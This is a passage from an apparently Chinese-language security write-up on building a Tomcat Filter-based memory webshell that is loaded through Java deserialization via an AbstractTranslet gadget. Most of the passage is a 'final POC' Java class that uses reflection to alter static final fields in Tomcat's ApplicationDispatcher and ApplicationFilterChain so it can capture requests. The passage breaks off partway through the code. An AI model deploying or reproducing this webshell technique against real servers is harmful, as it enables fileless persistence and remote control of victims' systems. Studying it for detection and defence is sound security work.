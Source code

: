 具体原因我也不太清楚，猜测由于后边需要进行反序列化加载字节码所以需要继承 AbstractTranslet，但继承了它之后便不能继承 HttpServlet，无法获取 doFilter 方法中所需请求导致

所以这里采用的方法是实现 Filter 接口，并直接将把恶意类 FilterShell 构造成`Filter`

```plain
Filter filter = new FilterShell();
```

而 doFilter 方法便不再包含在 filter 实例中，而是直接在 FilterShell 类中实现，这样便也能实现常规 filter 内存马构造恶意类的效果

最终 POC：

```plain
package memoryshell.UnserShell;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.Context;
import org.apache.catalina.core.*;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;
import javax.servlet.*;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Modifier;
import java.util.Map;

public class FilterShell extends AbstractTranslet implements Filter {
    static {
        try {
            Field WRAP_SAME_OBJECT_FIELD = Class.forName("org.apache.catalina.core.ApplicationDispatcher").getDeclaredField("WRAP_SAME_OBJECT");
            Field lastServicedRequestField = ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
            Field lastServicedResponseField = ApplicationFilterChain.class.getDeclaredField("lastServicedResponse");

            //修改static final
            setFinalStatic(WRAP_SAME_OBJECT_FIELD);
            setFinalStatic(lastServicedRequestField);
            setFinalStatic(lastServicedResponseField);

            //静态变量直接填null即可
            ThreadLocal<ServletRequest> lastServicedRequest = (ThreadLocal<ServletRequest>) lastServicedRequestField.get(null);
            ThreadLocal<ServletResponse> lastServicedResponse = (ThreadLocal<ServletResponse>) lastServicedResponseField.get(null);


            if (!WRAP_SAME_OBJECT_FIELD.getBoolean(null) || lastServicedRequest == null || lastServicedResponse == null){
                WRAP_SAME_OBJECT_FIELD.setBoolean(null,true);
                lastServicedRequestField.set(null, new ThreadLocal());
                lastServicedResponseField.set(null, new ThreadLocal());
            }else {
                ServletRequest servletRequest = lastServicedRequest.get();
                ServletResponse servletResponse = lastServicedResponse.get();

```